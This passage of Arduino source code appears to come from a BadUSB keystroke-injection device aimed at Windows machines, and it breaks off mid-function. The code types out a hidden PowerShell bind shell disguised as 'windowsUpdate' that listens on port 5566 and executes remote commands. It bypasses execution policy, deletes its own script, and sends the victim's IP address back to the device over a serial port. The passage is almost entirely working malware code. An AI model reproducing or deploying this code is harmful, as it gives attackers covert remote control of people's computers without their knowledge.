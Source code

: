 ```js
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.println("set updateSource=\"function windowsUpdate{$stream=$client.GetStream();[byte[]]$bytes=0..65535^|^%{0};$sendbytes=([text.encoding]::ASCII).GetBytes('Running as user '+$env:username+' on '+$env:computername+'.');$stream.Write($sendbytes,0,$sendbytes.Length);$sendbytes=([text.encoding]::ASCII).GetBytes('PS '+(Get-Location).Path+'^>');$stream.Write($sendbytes,0,$sendbytes.Length);while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$EncodedText=New-Object -TypeName System.Text.ASCIIEncoding;$data=$EncodedText.GetString($bytes,0,$i);try{$sendback=(IEX -Command $data 2^>^&1 ^| Out-String );}catch{}$sendback2  = $sendback + 'PS ' + (Get-Location).Path + '^> ';$x = ($error[0] ^|Out^-String);$error.clear();$sendback2 = $sendback2 + $x;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();if($listener){$listener.Stop();}$listener=[System.Net.Sockets.TcpListener]5566;$listener.start();rm update.ps1;$client=$listener.AcceptTcpClient();windowsUpdate\"");
    delay(500);

    Keyboard.println("echo %updateSource:~1,1014%>update.ps1");
    delay(200);
    Keyboard.println("powershell -ep bypass -windowstyle hidden -file update.ps1");
    delay(500);

    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("Powershell");
    delay(500);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.println("Get-NetIPAddress -AddressFamily IPv4 -suffixorigin dhcp|select ipaddress|Out-String -OutVariable d");
    delay(200);
    Keyboard.println("$c=((Get-WmiObject -query \"SELECT * FROM Win32_PnPEntity\"|Where{$_.Name -Match \"COM\\d+\"}).name).Split(\"COM\")");
    delay(200);
    Keyboard.println("$c=[int]$c[$c.length-1].replace(\")\",\"\")");
    delay(200);
    Keyboard.print("$s=new-Object System.IO.Ports.SerialPort COM");
    Keyboard.print("$c");
    Keyboard.println(",9600,None,8,one");
    delay(200);
    Keyboard.println("$s.Open()");
    delay(200);
    Keyboard.println("$s.Write(\"$d\")");
    delay(200);
    Keyboard.println("$s.close()");
    delay(200);
    Keyboard.println("exit");
    delay(200);

    for(int i=0; i<sizeof(stringArray)-1; i++)
        stringArray[i] = Serial.read();

    EEPROM.put(1, stringArray);
}
void ipaddr() {
    delay(500);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
```